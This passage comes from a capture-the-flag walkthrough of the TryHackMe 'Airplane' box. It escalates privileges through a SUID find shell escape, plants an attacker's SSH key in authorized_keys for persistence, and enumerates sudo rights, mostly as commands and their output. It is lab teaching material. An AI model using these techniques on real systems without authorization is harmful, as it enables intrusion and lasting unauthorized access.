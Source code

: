 We can see that the `/usr/bin/find` binary has the SUID bit set for the carlos user. We can run this command with the `-exec` option that allow us to run system command. This gives us a shell as carlos user and we can read the user flag on the system.
```bash
hudson@airplane:/home/hudson$ /usr/bin/find . -exec /bin/sh -p \; -quit
$ whoami
carlos
$ ls /home/carlos
Desktop    Downloads  Pictures  Templates  user.txt
Documents  Music      Public    Videos
```

## Post Exploitation

We can maintain this access by writing a public key we control in Carlos's `/home/carlos/.ssh/authorized_keys` files and connect to the target as the carlos user using SSH. We first create the private/public key pair on our attack host.
```bash
┌──(pentester㉿kali)-[~/…/TryHackMe/Challenge/Airplane/Misc File]
└─$ ssh-keygen -t ed25519                 
Generating public/private ed25519 key pair.
Enter file in which to save the key (/home/pentester/.ssh/id_ed25519): ./id_ed25519
<SNIP>
+----[SHA256]-----+

┌──(pentester㉿kali)-[~/…/TryHackMe/Challenge/Airplane/Misc File]
└─$ ls
PIDs.txt  binary.elf  id_ed25519  id_ed25519.pub

┌──(pentester㉿kali)-[~/…/TryHackMe/Challenge/Airplane/Misc File]
└─$ cat id_ed25519.pub                                
ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIBh4WvTepAN44OAVrcLMr5Zvj1i6KuPXMXw+s31IYxoi pentester@kali
```

Now we copy the contain of the `id_ed25519.pub` file we created to the `/home/carlos/.ssh/authorized_keys` file on the target.
```bash
$ echo 'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIBh4WvTepAN44OAVrcLMr5Zvj1i6KuPXMXw+s31IYxoi pentester@kali'  > /home/carlos/.ssh/authorized_keys
```

Finally we can connect to the target as Carlos using SSH.
```bash
┌──(pentester㉿kali)-[~/…/TryHackMe/Challenge/Airplane/Misc File]
└─$ ssh carlos@10.10.158.63 -i id_ed25519 
The authenticity of host '10.10.158.63 (10.10.158.63)' can't be established.
ED25519 key fingerprint is SHA256:9q23c/CHFWNnqEDK/eQFZ2BSYcCGfCW3+A9hX0ubHj0.
<SNIP>

carlos@airplane:~$
```

After a successful connection we can enumerate Carlos's sudo privileges.
```bash
carlos@airplane:~$ sudo -l
Matching Defaults entries for carlos on airplane:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User carlos may run the following commands on airplane:
    (ALL) NOPASSWD: /usr/bin/ruby /root/*.rb
```
